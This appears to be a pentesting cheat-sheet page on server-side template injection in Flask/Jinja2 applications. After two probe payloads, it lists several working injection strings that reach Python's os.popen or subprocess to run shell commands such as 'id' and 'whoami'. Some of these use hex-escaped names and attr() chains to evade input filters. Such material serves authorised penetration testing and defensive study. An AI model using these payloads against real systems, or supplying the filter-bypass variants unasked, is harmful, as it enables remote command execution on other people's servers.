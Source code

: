 ```yaml
---
title: Flask Jinja2 Pentesting
desc:  Flask is a micro web framework written in Python.
tags: [Flask, Jinja, Python, SSTI, Template, Web]
alts: []
render_with_liquid: true
---
```


{% raw %}

## Server-Side Template Injection (SSTI)

First, try below payloads.

```
{{ 4*2 }}
{{ config.items() }}
```

If success, you may be able to exploit with OS command injection.

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

{% endraw %}
